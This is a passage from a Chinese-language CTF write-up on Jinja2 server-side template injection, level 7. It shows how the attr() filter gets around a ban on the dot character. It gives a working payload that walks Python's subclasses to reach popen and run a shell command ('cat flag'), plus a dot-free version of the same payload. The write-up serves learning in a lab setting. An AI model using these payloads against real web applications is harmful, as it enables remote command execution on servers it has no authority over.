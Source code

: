 ### [level 7](#toc_level-7)

[![在这里插入图片描述](assets/1698900310-e6b33d2dfcb667dd0d7eef16531ba3b0.png)](https://storage.tttang.com/media/attachment/2022/08/14/ae13693f-816d-493f-8f48-4bf7f4d2d439.png)  
题目描述过滤了`.`，这个时候就需要用到过滤器`attr()`了，上一关已经提及并简单使用过，这里再用代码复述一下其作用

```bash
().__class__=()|attr(__class__)
```

因此这里的话我们只需要将`.`用`attr()`进行替换即可  
原 payload

```bash
{{().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()}}
```

修改过后的 payload 如下

```bash
code={{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(133)|attr("__init__")|attr("__globals__")|attr("__getitem__")('popen')('cat flag')|attr('read')()}}
```

[![在这里插入图片描述](assets/1698900310-9d8af602240057f99ba3fdd4900119ed.png)](https://storage.tttang.com/media/attachment/2022/08/14/f888e9a3-b950-486b-a649-43fbe3cff2b7.png)
